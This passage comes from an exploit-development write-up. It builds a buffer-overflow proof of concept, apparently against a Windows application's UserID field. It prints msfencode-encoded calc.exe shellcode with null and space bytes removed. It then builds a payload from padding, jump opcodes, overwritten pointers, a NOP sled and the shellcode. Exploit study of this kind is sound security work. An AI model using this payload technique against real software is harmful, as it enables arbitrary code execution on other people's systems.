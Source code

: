SUB ESI,-90 sets ESI to 0x019F6978, 12 bytes past 0x019F6968. This is where the shellcode will be placed. 

### Let's pwn this thing!

When working on a PoC, I prefer to stick with launching calc.exe for my shellcode. It's simple, small, fast, and easy to see in action. I used the calc shellcode from [https://code.google.com/p/win-exec-calc-shellcode/](https://code.google.com/p/win-exec-calc-shellcode/) and removed the characters 0x00 and 0x20. 

0x00 is a null byte, which would truncate the payload, and 0x20 is space, which would also truncate the payload as it's being treated as a value assigned to UserID.

```
# calc shellcode from https://code.google.com/p/win-exec-calc-shellcode/
# msfencode -b "\x00\x20" -i w32-exec-calc-shellcode.bin 
# [*] x86/shikata_ga_nai succeeded with size 101 (iteration=1)
shellcode = ( 
"\xd9\xcb\xbe\xb9\x23\x67\x31\xd9\x74\x24\xf4\x5a\x29\xc9" +
"\xb1\x13\x31\x72\x19\x83\xc2\x04\x03\x72\x15\x5b\xd6\x56" +
"\xe3\xc9\x71\xfa\x62\x81\xe2\x75\x82\x0b\xb3\xe1\xc0\xd9" +
"\x0b\x61\xa0\x11\xe7\x03\x41\x84\x7c\xdb\xd2\xa8\x9a\x97" +
"\xba\x68\x10\xfb\x5b\xe8\xad\x70\x7b\x28\xb3\x86\x08\x64" +
"\xac\x52\x0e\x8d\xdd\x2d\x3c\x3c\xa0\xfc\xbc\x82\x23\xa8" +
"\xd7\x94\x6e\x23\xd9\xe3\x05\xd4\x05\xf2\x1b\xe9\x09\x5a" +
"\x1c\x39\xbd"
)
```

I updated the payload one more time to include a NOP sled and the shellcode: 

```python
payload =  "A"*64                            # padding
payload += "\x81\xee\x70\xff\xff\xff"        # SUB ESI,-90
payload += "\xff\xe6"                        # JMP ESI
payload += "A"*8                             # padding
payload += struct.pack("<I", 0x019F6940)     # overwrite EDX with pointer to CALL ESI
payload += "C"*108                           # padding
payload += struct.pack("<I", 0x10023701)     # pointer to CALL ESI
payload += "\x90"*20                         # NOP sled
payload += shellcode                         # calc.exe
payload += "C"*75                            # padding
```

I executed the PoC and stepped through each instruction until it got to the JMP ESI. I hit F7 to step through and it landed in the middle of the NOP sled: 
